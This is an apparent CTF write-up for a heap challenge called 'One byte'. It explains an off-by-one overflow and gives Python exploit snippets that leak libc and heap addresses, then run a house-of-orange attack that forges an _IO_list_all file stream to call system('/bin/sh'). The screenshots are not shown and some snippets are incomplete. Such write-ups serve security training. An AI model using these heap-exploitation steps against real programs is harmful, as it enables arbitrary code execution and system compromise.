# One byte

## Overall


- Full armour



- No leak libc, heap.



- No double free.


- No UAF.

### malloc


- As you see, it calls calloc instead of malloc with a size of 0x58 (0x60 for chunk).
- Memory blocks allocated by the calloc function are always initialized to zero.

### free

#### It is simple that the program call free to free the chunk at index from user input.

### edit

#### It takes input from user(index) to write data to this index chunk.



- Input with a size of 0x59.

### read

#### It is simple that the program call write data from the chunk at index to stdout.

### quit

#### Leave the program.

## Bug

#### Call alloc to allocate 0x58 size; however, it take input from the user with 0x59 size. This mean that I can overwrite one byte.


## Approach

#### Everything will be better if I have the address of libc and heap

### Leak libc

***target:*** unsortedbin + remainder. 

#### I can overwrite one byte, so I can control the size of the succeeding chunk. Thus, if I overwrite the size of the chunk with the larger size, then free it, this free chunk will overlap other chunk that doesn't free. 

```python=
chunk_A = malloc()
chunk_B = malloc()
chunk_C = malloc()
chunk_D = malloc()

edit(chunk_A, p8(0)*0x58 + p8(0xc1))
free(chunk_B)

```


-  After overwrite


- After free 

***Now, I can write and read data in chunk_C, which is overlaped by free chunk, so I can leak data from this free chunk.***


Add some lines of code and see the result

```python=
chunk_B2 = malloc()

unsortedbin_data = read(chunk_C)
unsortedbin = u64(unsortedbin_data[0:8])
info("unsortedbin: " + hex(unsortedbin))
```




### Leak heap

**target:** fastbin dup

Add some lines of code

```python=
chunk_C2 = malloc()
free(chunk_A)
free(chunk_C2)

fastbin_data = read(chunk_C)
heap = u64(fastbin_data[0:8])
info("heap: " + hex(heap))
```






### The house of orange

***target:*** overwrite vtable of _IO_list_all to trigger overflow function in vtable for pop shell.
Because I can overwrite one byte(size of chunk), I can control heap to create fake file stream.

```python=
# house of oragne
chunk_C3 = malloc()
chunk_A2 = malloc()

edit(chunk_A2, p8(0)*0x58 + p8(0xc1))
free(chunk_B2)

chunk_B3 = malloc()

# string "/bin/sh" to _flag size field
edit(chunk_B3, p64(0)*10 + b'/bin/sh\x00')

payload = \
p64(0) + p64(libc.sym['_IO_list_all'] - 0x10) +\
p64(1) + p64(2) 

edit(chunk_C3, payload)

edit(chunk_E, p64(libc.sym['system']) + p64(heap + 0x178))

malloc()
```

**My configure struct**








**However, there will be a mistake when I do it. Notice that triggers can happen when sorting this fake chunk, not allocating it (the program will not abort and the location of this will not reside in 0x60 bk small bin)**



- IO_list_all



- IO_list_all.file._chain


***I set up fake file stream successfully; however, I need to trigger to move it into _IO_list_all***

#### Trigger size



***Method 1***
_IO_list_all &rarr; _chain: 0x60 bk small bin &rarr; _chain: 0xb0 small bin

***Set size chunk C to 0xb1***

***Method 2***


```cpp=
          /* Take now instead of binning if exact fit */

          if (size == nb)
            {
              set_inuse_bit_at_offset (victim, size);
              if (av != &main_arena)
                victim&rarr;size |= NON_MAIN_ARENA;
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }

          /* place chunk in bin */
```

- The exact fitting chunks are allocated from the unsortedbin, otherwise they're sorted into the appropriate small or large bin. The 'nb' variable represents the normalized request size, it's the result of malloc rounding up your request to the nearest actual chunk size.
- For example, if I request 3 bytes, 'nb' would hold the value 0x20.
- In the case of our challenge binary 'nb' is always 0x60.
- The 'size' variable represents the size of the unsorted chunk currently under inspection. malloc masks off the chunk's flags prior to this comparison to stop them from interfering.
- ***But chunk size fields only hold three flags, the fourth least-significant bit is neither a flag nor does it contribute to a chunk's size. During unsorted bin searches it is not masked off prior to this comparison because there's no good reason for it to ever be set in the first place.***
- So if we set the fourth least-significant bit of our 0x60 chunk, giving it a size field of 0x68, or 0x69 if you want to keep the prev_inuse flag, **it won't be considered an exact fit during requests for 0x60-sized chunks**. However, i**t will sort this chunk to 0x60 small bin.**
- Furthermore, the code responsible for sorting chunks into their respective bins does mask off, specifically it rotates away, the entire low order nybble of their size field, meaning that our chunk with the 0x68 size field will still be correctly sorted into the 0x60 smallbin.

***Set size chunk C to 0x68***